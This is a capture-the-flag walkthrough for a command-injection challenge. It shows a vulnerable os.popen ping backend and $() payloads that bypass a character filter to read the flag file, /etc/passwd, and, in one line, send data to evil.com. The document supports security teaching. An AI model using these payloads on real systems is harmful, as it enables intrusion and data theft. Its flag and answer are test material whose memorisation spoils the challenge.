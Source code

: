 # Shadows Walkthrough

## Challenge Overview
**Difficulty**: Hard  
**Vulnerability**: Command Injection  
**Flag**: nhc{sh4d0w_c0mm4nd_3x3cut3d}

## Story Context
Hattori infiltrates the Shadow Garrison, where reconnaissance terminals hold the power to execute commands in the darkness.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/shadows`
2. Observe the IP scanning terminal

### Step 2: Understand the Vulnerability
The backend executes:
```python
command = f'echo "Scanning {ip}" ; ping -c 1 {ip}'
result = os.popen(command).read()
```

### Step 3: Bypass Input Filters
Blocked characters: `;`, `|`, `` ` ``, `&`
Allowed: alphanumeric, dots, hyphens, `$`, `(`, `)`

### Step 4: Craft Command Injection
1. Use `$()` for command substitution
2. Read the flag file: `shadow_fragment.txt`
3. Payload: `127.0.0.1$(cat shadow_fragment.txt)`

### Step 5: Execute and Capture Output
1. Submit the payload
2. The output should contain: `nhc{sh4d0w_c0mm4nd_3x3cut3d}`
3. Copy the flag from the scan results

## Hints

### Hint 1
> The terminal blocks common injection characters. Look for alternative ways to execute commands.

### Hint 2
> Command substitution allows executing commands within other commands. The `$()` syntax might work.

### Hint 3
> The flag is stored in a file called `shadow_fragment.txt`. How can you read file contents through command injection?

## Educational Notes

### What You Learned
- **Command Injection**: Executing system commands through web inputs
- **Input Filtering**: Bypassing security filters
- **Command Substitution**: Using `$()` to execute nested commands
- **Shell Escaping**: Alternative injection techniques

### Real-World Impact
- Server compromise
- Data exfiltration
- Malware execution
- Privilege escalation

### Prevention
- Input validation and sanitization
- Whitelist allowed characters
- Use safe APIs instead of shell commands
- Parameterized execution
- Least privilege execution

## Alternative Payloads

### Basic Command Injection
```
127.0.0.1$(whoami)
```
Shows current user.

### File Reading
```
127.0.0.1$(cat /etc/passwd)
```
Reads system password file.

### Directory Listing
```
127.0.0.1$(ls -la)
```
Lists directory contents.

### Advanced Injection
```
127.0.0.1$(curl http://evil.com/data)
```
Exfiltrates data to external server.

## Testing Commands

### Safe Testing
```bash
# Test command substitution
echo "Scanning 127.0.0.1$(echo ' injected')"
```

### Python Simulation
```python
import os
ip = "127.0.0.1$(cat shadow_fragment.txt)"
command = f'echo "Scanning {ip}" ; ping -c 1 {ip}'
print("Command:", command)
# result = os.popen(command).read()
```

## Common Mistakes
- Using blocked characters (`;`, `|`, etc.)
- Not understanding command substitution syntax
- Wrong file path or name
- Not capturing the full output

## Filter Bypass Techniques

### Character Substitution
- Use `$()` instead of backticks
- Use `${}` for variable expansion

### Encoding
- URL encoding special characters
- Using hex or octal representations

### Alternative Injection Points
- Other shell metacharacters
- Environment variable manipulation

## Next Steps
Submit the flag extracted from the file.
